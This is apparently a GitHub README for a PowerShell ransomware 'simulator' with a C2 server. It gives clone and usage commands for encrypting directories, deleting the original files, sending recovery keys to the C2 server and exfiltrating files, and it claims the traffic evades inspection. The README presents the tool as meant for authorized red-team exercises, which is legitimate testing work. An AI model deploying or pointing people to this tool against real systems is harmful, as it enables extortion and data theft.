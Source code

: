 <p align="center"><img width=750 alt="Farewell Ransom" src="https://github.com/BZHack/Farewell-Ransom/blob/main/Demo/RUCyberArmy.jpg"></p>

# Farewell Ransom

**Farewell Ransom** is a PowerShell Ransomware Simulator with C2 Server capabilities. This tool helps you simulate encryption process of a generic ransomware in any system on any system with PowerShell installed on it. Thanks to the integrated C2 server, you can exfiltrate files and receive client information via HTTP.

It's a fork of the great work of JoelGMSec https://github.com/JoelGMSec/PSRansom

All communication between the two elements is encrypted or encoded so as to be undetected by traffic inspection mechanisms, although at no time is HTTPS used at any time.

# Requirements

- PowerShell 4.0 or greater

# Download

It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:

```bash
git clone https://github.com/BZHack/Farewell-Ransom
```

# Usage

```powershell
.\frsm.ps1 -h

   ##################
   ##################
   ##################

   "  ----------------- by @RUCyberArmy ----------------  "

 Info:  This tool helps you simulate encryption process of a
        generic ransomware in PowerShell with C2 capabilities

 Usage: .\frsm.ps1.ps1 -e Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server & Delete the original files
          Use -x to exfiltrate and decrypt files on C2Server

        .\frsm.ps1 -d Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Usage safe:
         .\frsm.ps1 -se Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server & Hide the original files
          Use -x to exfiltrate and decrypt files on C2Server

        .\frsm.ps1 -de Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Extra parameter: -full , to change wallpaper and show a pop-up         


 Warning: All info will be sent to the C2Server without any encryption
          You need previously generated recovery key to retrieve files

```

## The detailed guide of use can be found at the following link:

TBD

# License

This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.

# Credits and Acknowledgments

This tool has been created and designed from scratch by Joel Gámez Molina // @JoelGMSec

BZHack just forked it !

# Contact

This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find us on Twitter as [@asso_bzhack](https://twitter.com/asso_bzhack) and on my blog [bzhack.bzh](https://www.bzhack.bzh/).

# TO DO

- Make encryption between client en C2Server
- Add better handle of exfill
- Add control on decrypt to make sure all files are recovered before erasing encrypted source (this is not an issue if you use the proper recovery key)
